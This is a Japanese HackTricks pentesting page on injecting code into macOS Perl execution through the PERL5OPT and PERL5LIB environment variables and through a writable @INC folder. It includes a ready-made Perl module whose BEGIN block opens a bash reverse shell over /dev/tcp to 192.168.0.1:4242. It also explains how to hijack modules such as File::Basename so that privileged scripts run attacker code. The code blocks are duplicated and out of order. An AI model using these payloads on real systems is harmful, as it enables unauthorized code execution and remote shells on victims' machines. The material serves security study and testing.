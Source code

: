 # macOS Perl アプリケーションインジェクション

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ会社**で働いていますか？**HackTricksで会社の広告を掲載**したいですか？または、**最新版のPEASSを入手**したり、**HackTricksをPDFでダウンロード**したいですか？[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見してください。私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションです。
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* **[**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加するか、**Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**に**フォロー**してください。**
* **ハッキングのコツを共有するために、**[**hacktricksリポジトリ**](https://github.com/carlospolop/hacktricks)と[**hacktricks-cloudリポジトリ**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出してください。**

</details>

## `PERL5OPT` & `PERL5LIB` 環境変数を通じて

環境変数 PERL5OPT を使用すると、perl で任意のコマンドを実行することが可能です。\
例えば、このスクリプトを作成します：

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

これで**環境変数をエクスポート**し、**perl**スクリプトを実行します:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
```perl
package pmod;

use strict;
use warnings;

BEGIN {
    system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.1/4242 0>&1'");
}

1;
```
{% endcode %}

この方法では、Perlモジュール（例：`/tmp/pmod.pm`）を作成します：

{% code title="/tmp/pmod.pm" %}
```perl
package pmod;

use strict;
use warnings;

BEGIN {
    system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.1/4242 0>&1'");
}

1;
```
{% endcode %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
```
そして、環境変数を使用します:
```
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```
## 依存関係を通じて

Perlが実行中の依存関係フォルダの順序をリストすることが可能です：
```bash
perl -e 'print join("\n", @INC)'
```
これにより、次のような結果が返されます:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
返されたフォルダの中には存在しないものもありますが、**`/Library/Perl/5.30`** は**存在し**、**SIP**によって**保護されていない**上、SIPによって保護されているフォルダよりも**前**にあります。したがって、誰かがそのフォルダを悪用してスクリプトの依存関係を追加し、高権限のPerlスクリプトがそれを読み込むようにすることができます。

{% hint style="warning" %}
ただし、そのフォルダに書き込むには**root権限が必要**であり、現在ではこのような**TCCプロンプト**が表示されることに注意してください：
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt="" width="244"><figcaption></figcaption></figure>

例えば、スクリプトが**`use File::Basename;`** をインポートしている場合、`/Library/Perl/5.30/File/Basename.pm` を作成して任意のコードを実行させることが可能です。

## 参考文献

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ会社**で働いていますか？**HackTricksにあなたの会社を広告したい**ですか？または、**最新版のPEASSを入手**したり、**HackTricksをPDFでダウンロード**したいですか？[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをご覧ください。
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加するか**、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのコツを共有するために、**[**hacktricksリポジトリ**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloudリポジトリ**](https://github.com/carlospolop/hacktricks-cloud) **にPRを提出してください。**

</details>
